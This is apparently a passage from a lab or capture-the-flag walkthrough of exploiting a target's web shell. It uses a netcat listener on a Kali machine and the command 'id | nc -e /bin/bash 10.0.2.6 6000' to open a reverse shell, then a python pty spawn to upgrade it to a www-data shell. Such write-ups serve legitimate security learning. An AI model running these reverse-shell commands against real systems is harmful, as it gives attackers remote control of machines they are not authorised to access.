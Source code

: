 ![secondo screen](dev.png)


Now downloading with `curl` command `dev_shell.txt.bak` file, that is backup file of `de_shell.php`, it is possible to see the reason why the other commands disn't work

![terzo](blocked.png)

It is time now to establish a netcat connection thorugh the web shell and the Kali machine. This is done using netcat 

- on Kali side the command 
``` nc -lvp 6000``` was runned, so the Kali machine is now listening on port 6000 for connection requests
- on the web interface of the target the command `id | nc -e /bin/bash 10.0.2.6 6000` was runned 

In order to spawn a better shell on kali terminal the command 

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
was used. The current account is `www-data`.
